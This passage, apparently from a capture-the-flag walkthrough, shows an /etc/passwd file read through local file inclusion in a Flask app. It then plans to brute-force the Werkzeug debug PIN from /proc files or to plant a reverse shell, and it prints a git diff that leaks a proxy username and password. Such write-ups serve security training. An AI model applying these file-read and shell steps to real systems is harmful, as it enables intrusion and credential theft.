 ```bash
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```
Users with a shell: ``halt`, `root`
Success! I first tried to see if I was able to grab any SSH keys but no luck... But since I have local file inclusion, I can instead use this to gather the information needed to brute force the Flask Debug console PIN number and get a shell that way as specified [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit). Or, we could simply overwrite `views.py` to execute a reverse shell by capturing the upload using burpsuite then modifying the code.

To brute force the flask PIN:

We need to grab: `username`, `modname(flask.app)`, `/proc/net/arp(Device ID to extract MAC address)`, as well as `/proc/self/cgroup`.

we know the username from the git diff:
```bash
git diff a76f8f7 ee9d9f1
diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json
deleted file mode 100644
index 5975e3f..0000000
--- a/app/.vscode/settings.json
+++ /dev/null
@@ -1,5 +0,0 @@
-{
-  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
-  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
-  "http.proxyStrictSSL": false
-}
diff --git a/app/app/views.py b/app/app/views.py
index 0f3cc37..f2744c6 100644
--- a/app/app/views.py
+++ b/app/app/views.py
@@ -6,17 +6,7 @@ from flask import render_template, request, send_file
 from app import app
 
 
-@app.route('/')
-def index():
-    return render_template('index.html')

```
